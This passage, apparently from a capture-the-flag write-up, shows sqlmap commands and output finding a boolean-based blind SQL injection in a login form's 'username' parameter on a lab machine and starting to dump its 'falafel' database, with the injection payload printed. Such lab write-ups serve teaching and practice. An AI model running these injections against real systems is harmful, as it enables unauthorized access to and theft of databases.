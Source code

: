 

    root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification"
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.2.5#stable}
    |_ -| . [(]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org

    ...
    [08:25:48] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
    ...
    [08:26:26] [INFO] checking if the injection point on POST parameter 'username' is a false positive
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 301 HTTP(s) requests:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: username=chris' AND 8059=8059-- GlxT&password=chris
    ---
    [08:26:31] [INFO] testing MySQL
    [08:26:31] [INFO] confirming MySQL
    [08:26:31] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.0
    [08:26:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'



Got it! Let's now dump the database:



    root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification" --dump
            ___
           __H__
     ___ ___[,]_____ ___ ___  {1.2.5#stable}
    |_ -| . ["]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org
    ...
    08:31:30] [INFO] testing if the provided string is within the target URL page content
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: username=chris' AND 8059=8059-- GlxT&password=chris
    ---
    [08:31:30] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL 5
    ...
    [08:31:30] [INFO] retrieved: falafel
    [08:31:39] [INFO] fetching tables for database: 'falafel'
    [08:31:39] [INFO] fetching number of tables for database 'falafel'
    [08:31:39] [INFO] retrieved: 1